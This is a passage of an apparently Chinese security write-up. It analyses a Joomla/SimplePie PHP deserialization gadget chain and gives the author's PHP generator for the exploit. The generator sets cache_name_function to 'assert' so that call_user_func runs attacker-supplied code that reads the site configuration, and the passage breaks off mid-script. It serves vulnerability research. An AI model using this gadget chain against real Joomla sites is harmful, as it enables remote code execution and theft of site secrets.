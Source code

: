 ```
function init()
    {
        // Check absolute bare minimum requirements.
        if ((function_exists('version_compare') && version_compare(PHP_VERSION, '4.3.0', '<')) || !extension_loaded('xml') || !extension_loaded('pcre'))
        {
            return false;
        }
        ...
        if ($this->feed_url !== null || $this->raw_data !== null)
        {
            $this->data = array();
            $this->multifeed_objects = array();
            $cache = false;

            if ($this->feed_url !== null)
            {
                $parsed_feed_url = SimplePie_Misc::parse_url($this->feed_url);
                // Decide whether to enable caching
                if ($this->cache && $parsed_feed_url['scheme'] !== '')
                {
                    $cache = call_user_func(array($this->cache_class, 'create'), $this->cache_location, call_user_func($this->cache_name_function, $this->feed_url), 'spc');
                }

```

很明显，其中这两个call_user_func将是触发代码执行的元凶。 所以，我将其中第二个call_user_func的第一个参数cache_name_function，赋值为assert，第二个参数赋值为我需要执行的代码，就构造好了一个『回调后门』。  
所以，exp是怎么生成的？给出我写的生成代码：

```
<?php
//header("Content-Type: text/plain");
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
```